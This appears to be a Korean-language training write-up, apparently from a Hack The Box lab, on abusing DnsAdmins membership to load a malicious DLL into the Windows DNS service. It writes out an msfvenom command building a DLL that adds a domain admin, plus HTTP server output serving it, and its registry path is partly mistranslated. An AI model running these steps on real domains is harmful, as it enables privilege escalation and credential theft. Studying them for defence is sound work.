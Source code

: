 # DNS Admin

[DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) 그룹의 구성원은 <mark style="background-color:orange;">네트워크의 DNS 정보에 액세스</mark>할 수 있습니다. Windows DNS 서비스는 사용자 지정 플러그인을 지원하며, 로컬로 호스팅된 DNS 영역의 범위에 속하지 않는 이름 쿼리를 해결하기 위해 플러그인에서 함수를 호출할 수 있습니다. DNS 서비스는 `NT AUTHORITY\SYSTEM으로` 실행되므로 이 그룹의 구성원은 도메인 컨트롤러에 대한 권한을 에스컬레이션하거나 별도의 서버가 도메인의 DNS 서버로 작동하는 상황에서 잠재적으로 활용될 수 있습니다. 내장된 [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) 유틸리티를 사용하여 플러그인 DLL의 경로를 지정할 수 있습니다. 이 훌륭한 [게시물에](https://adsecurity.org/?p=4064) 자세히 설명된 대로 도메인 컨트롤러에서 DNS가 실행될 때 다음과 같은 공격을 수행할 수 있습니다(매우 일반적임):

* DNS 관리는 RPC를 통해 수행됩니다.
* [ServerLevelPluginDll을](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) 사용하면 DLL 경로를 확인하지 않고도 사용자 정의 DLL을 로드할 수 있습니다. 이 작업은 명령줄에서 `dnscmd` 도구를 사용하여 수행할 수 있습니다.
* `DnsAdmins` 그룹의 구성원이 아래 `dnscmd` 명령을 실행하면 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\서비스의\DNS\파라미터\서버레벨플러그인Dll` 레지스트리 키가 채워집니다.
* DNS 서비스가 다시 시작되면 이 경로에 있는 DLL(즉, 도메인 컨트롤러의 컴퓨터 계정이 액세스할 수 있는 네트워크 공유)이 로드됩니다.
* <mark style="background-color:orange;">공격자는 사용자 지정 DLL을 로드하여 리버스 셸을 얻거나 Mimikatz와 같은 툴을 DLL로 로드하여 자격 증명을 덤프</mark>할 수도 있습니다.

### <mark style="background-color:orange;">DnsAdmins 액세스 활용</mark> <a href="#dnsadmins" id="dnsadmins"></a>

**악성 DLL 생성**

악성 DLL을 생성하여 `msfvenom을` 사용하여 `도메인 관리자` 그룹에 사용자를 추가할 수 있습니다.

&#x20; 악성 DLL 생성

```
realblackcat@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

**로컬 HTTP 서버 시작**

다음으로 Python HTTP 서버를 시작합니다.

&#x20; 로컬 HTTP 서버 시작

```
realblackcat@htb[/htb]$ python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

&#x20;Others : smbserver 시작, 파일 다운&#x20;
